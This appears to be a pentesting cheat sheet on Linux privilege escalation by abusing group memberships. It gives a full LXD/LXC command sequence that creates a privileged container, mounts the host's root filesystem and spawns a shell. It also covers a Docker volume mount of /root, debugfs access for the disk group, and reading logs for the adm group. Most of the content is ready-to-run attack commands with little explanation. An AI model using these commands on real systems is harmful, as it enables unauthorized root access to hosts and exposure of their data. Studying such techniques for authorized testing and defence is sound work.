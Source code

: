## LXC / LXD

Membership of the LXD groups can be use to escalate privileges by creaeting an LXD container, making it privileged, and then accessing the host file system at /mnt/root

**Check group memberships
```shell-session
id
```

**Unzip the Alpine image
```shell-session
unzip alpine.zip
```

**LXD initialization
```shell-session
lxd init
```

**Import the local image
```shell-session
lxd image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```

**Start a privileged container
```shell-session
lxc init alpine r00t -c security.privileged=true
```

**Mount the host file system
```shell-session
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

**Spawn shell
```shell-session
lxc start r00t
lxc exec r00t /bin/sh
```

## Docker
```shell-session
docker run -v /root:/mnt -it ubuntu
```
- Mounts root directory, allows access of it

## Disk
Users within the disk group have full access to /dev, such as /dev/sda1
```shell-session
debugfs
```
- access to entire file system with root level privileges

## ADM
Users of the adm group can read all logs in /var/log
Leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.


